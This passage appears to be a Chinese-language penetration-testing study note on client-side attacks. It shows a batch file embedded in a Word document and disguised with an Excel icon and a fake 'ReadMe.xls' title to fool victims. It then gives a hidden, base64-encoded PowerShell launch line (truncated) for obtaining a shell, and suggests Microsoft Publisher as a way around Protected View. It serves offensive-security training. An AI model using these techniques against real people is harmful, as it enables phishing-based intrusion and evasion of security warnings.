 即使这是一个嵌入式批处理文件，Microsoft仍允许我们为它选择一个不同的图标并输入标题，这是受害者将看到的标题，而不是实际的文件名。在上面的示例中，我们选择了Microsoft Excel图标以及ReadMe.xlsto名称，以完全掩盖该批处理文件，以降低对受害者的怀疑。接受菜单选项后，批处理文件将嵌入到Microsoft Word文档中。接下来，必须诱使受害者双击它并接受如图所示的安全警告

![image-20200514152408842](assets/6.客户端攻击.assets/image-20200514152408842.png)

### 获得shell

修改为powershell,base64

``````
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```

监听，得到shell

![image-20200514153922927](assets/6.客户端攻击.assets/image-20200514153922927.png)

由于文档是在本地建立，可以正常运行，但当在实际应用中文档由email或其他网络途径传播并打开，会转为受保护的视图，这将禁用文档中的所有编辑和修改，并阻止宏或嵌入式对象的执行。

![image-20200514154321798](assets/6.客户端攻击.assets/image-20200514154321798.png)

我们可以使用另一个office软件Publisher，与Microsoft Word一样，Microsoft Publisher允许嵌入对象并最终以与Word和Excel完全相同的方式执行代码，但不会启用Internet传递文档的受保护视图

我们可以使用以前应用于Word的策略来绕过这些限制，但是缺点是与Word或Excel相比，Publisher的安装频率较低。尽管如此，如果您的指纹检测阶段检测到安装了Publisher，这可能是一个可行且更好的方法。